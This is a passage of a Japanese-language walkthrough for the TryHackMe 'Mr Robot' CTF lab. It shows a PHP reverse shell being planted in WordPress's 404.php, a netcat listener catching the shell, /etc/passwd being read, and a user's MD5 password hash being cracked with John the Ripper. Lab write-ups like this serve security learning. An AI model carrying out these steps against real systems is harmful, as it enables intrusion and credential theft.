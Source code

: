 ```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

ファイルの中身で「CHANGE THIS」とコメントされている箇所が2か所あるので、そこを変更します。 `$ip(自分のローカルマシンのIP)` と `$PORT(適当に12345)` を設定し、保存します。編集したプログラム全体をべろっとコピーして、`404.php` を更新します。`File edited successfully.` と出て無事に更新完了です。

ローカルマシン で別タブを開き、 port 12345 で Listen しておきます（`nc -lnvp 12345`）。その状態で、ブラウザで `/404.php` にアクセスすると... WordPress サーバのシェルを取得できました！（`whoami` で daemon と出てますね）

<img src="/images/2024/20241030a/MrRobotCTF_shell.png" alt="MrRobotCTF_shell.png" width="1200" height="429" loading="lazy">

`cat /etc/passwd` で他にどのようなユーザがいるのか調べます。`robot` というユーザは問題名からしても気になりますね。

```sh
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
(中略)
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

robot に探りを入れてみると、2つ目の key を発見しました。しかし、key の参照権限はファイル所有者の robot しかないようです。

```sh
$ ls -l /home/robot/
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

でも `password.raw-md5` という気になる名前をしたファイルは、その他のユーザにも参照権限があるようです。

```sh
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

MD5 とはハッシュ関数の１つで、128bitのハッシュ値を生成します。しかし、MD5 には比較的簡単にハッシュ衝突を計算できるという脆弱性があり、安全性の観点から暗号化には利用されません。

このようなパスワードの解読には `JohnTheRipper` というツールが使えます。`password.raw-md5` の中身を `md5.txt` というファイルに保存して、 JohnTheRipper で解読してみると、一瞬でパスワードを取得できました。

```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-10-27 22:21) 10.00g/s 405120p/s 405120c/s 405120C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
